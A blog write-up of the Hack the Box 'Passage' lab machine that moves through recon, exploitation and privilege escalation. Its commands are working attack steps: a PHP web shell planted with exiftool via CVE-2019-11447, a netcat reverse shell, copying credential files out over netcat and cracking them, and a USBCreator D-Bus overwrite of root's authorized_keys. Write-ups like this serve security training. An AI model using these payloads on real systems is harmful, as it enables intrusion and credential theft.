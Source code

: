 ```yaml
---
weight: 1
title: "Hack the Box - Passage"
date: 2021-03-06T14:00:01+08:00
lastmod: 2021-03-06T14:00:01+08:00
draft: false
author: "HcKy"
authorLink: ""
description: "Hack the Box Passage Write-up"
resources:
- name: "featured-image"
  src: "passage.jpeg"

  
tags: ["Linux", "Web", "PHP", "CVE", HTB]
categories: ["write-ups"]

lightgallery: true
linkToMarkdown: false

toc:
  auto: false
---
```


<div style="text-align:center">Write-up of Passage - Difficulty : Medium </div>

<!--more-->

>"None shall pass." - "I have no quarrel with you, good Sir Knight,
>but I must cross this bridge." - "Then you shall die."
>
>Monty Python and the Holy Grail

## 1. Overview

Passage is a Linux box hosting a blog/news website.  
The version of CuteNews installed allows for a file upload to RCE.  
Re-use of account credentials allows for lateral movement in the system.  
The root account is able to be compromised due to an unpatched version of USBCreator.  

## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22 and 80 are open.
The http title on 80 is Passage News.

``` bash 
 nmap -sC -sV 10.129.108.237
```

![nmap](nmap.png)


### 2.2 Website
#### 2.2.1 Passage News

First thing we need to do is check out the website on port 80.  We can do that by simply browsing to it in Firefox. The site appears to be some type of message board. All the posts are filler text except for the "Implemented Fail2Ban" post which just states that fail2ban has been installed.  If we run gobuster against this site our IP address will get banned for roughly five minutes.  At the bottom of the page is a reference to CuteNews and a link to their website.  

![home](news.png)  

After poking around for a little while and not getting anywhere it's time to look at the documentation for Cute News.  The documentation mentioned a dashboard at **/CuteNews**.  

When we go to that site we're able to register for an account and login.  After some more enumeration there doesn't appear to be much info to grab.  We can see that the version of Cute News running is **2.1.2**.  

After some googling we wind up with [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447).  


## 3. Foothold

The CVE we found allows us to upload an image file with php code commented into the image and have the server execute it.  This vulnerability can be used for us to gain a foothold.

We can use any image file and add a comment with exiftool that allows us to run commands by putting the command in a GET request.  

``` bash
exiftool -comment='<?php echo system($_GET['cmd']); ?>'
```  
We change the extension to **.php** and upload it as an avatar to the user account that we created earlier.  

With this uploaded we're able to navigate to our file and run some commands, such as **id** to see who we're running commands as and **ls /bin** to see what's installed on the server.  

```
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=id
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=ls+/bin
```  
<br>

![id](idphp.png)  
![ls](lsbin.png)  

With these commands we can see that we're running as **www-data** and that **nc** and **nc.traditional** are installed on the server.  
Knowing that, we can simply use netcat to call back to a listener we set up on our box.  

We set up our listener with **nc -lvnp 1234** and use the following url encoded command in our browser to connect to it.  

```
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=nc%2010.10.14.24%201234%20-e%20%2Fbin%2Fbash
```
![data](wwwdata.png)  

 
## 4. Privilege Escalation
### 4.1 First user  

As usual when a website is running we want to check out **/var/www/html** to see if anything is left there for us to find.  In **/var/www/html/CuteNews/cdata/users** we find bunch of files that have base64 encrypted strings in them. To easily move these to our machine we ran **cat \* > hash.txt** and then moved the file over to our box with netcat.  
``` bash
on attack box
nc -lvnp 2345 > hash.txt

on victim box
nc -w 3 10.10.14.24 2345 < hash.txt
```  
![nc](nctransfer.png)  

Now we just remove extra data from the file and decode the base64 with **cat hash.txt|base64 -d > hash2.txt**.  Once that's complete we can run hashcat against the new hashes we found to see if anything is useful.  
```
hashcat -m 1400 -a 0 hash2.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
![hash](hashcat.png)  

And since we found a couple passwords let's run **getent passwd** to find our users.  We try the passwords for our users **nadav** and **paul**.  A simple **su** to paul and we have our first user and the user flag in the home directory.  
  
![paul](supaul.png)  

### 4.2 Second User

Since we all know that users like to re-use things it's always a good practice to attempt to use what you already have to access other user accounts.  Neither of the passwords seem to work for **nadav** so let's try using **paul's** SSH key to get in.  We copied his private key over with **nc** using the same command as our previous transfer.  

We attempt to SSH in with the key as nadav and we get right in.  
![ssh](nadavssh.png)  

### 4.3 Root

Running **groups** as nadav reveals that he's a member of quite a few things.  First thing's first, however, so let's go check out his home directory.  A simple **ls -a** and we find a hidden **.viminfo** file with some useful information in it.  

![vim](viminfo.png)  

Nadav has been making some changes to something called **dbus-1/.../USBCreator.conf**.  If we do some more googling we wind up at [USCreator Privilege Escalation](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) which should allow use to overwrite arbitrary files on the system without password prompt so long as we are in the sudo group.  Sounds like a plan.  
Instead of copying our key over the victim host we'll just use nadav's since we already have the private key on our attack box.  
```bash
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
```
![root](privescroot.png)  

Simple as that we have root access to the box.  


## Conclusion

1. Ensure your software is up to date.  Both attack vectors could be eliminated by installing required patches or updating to the newest version of the effected software.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="https://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>
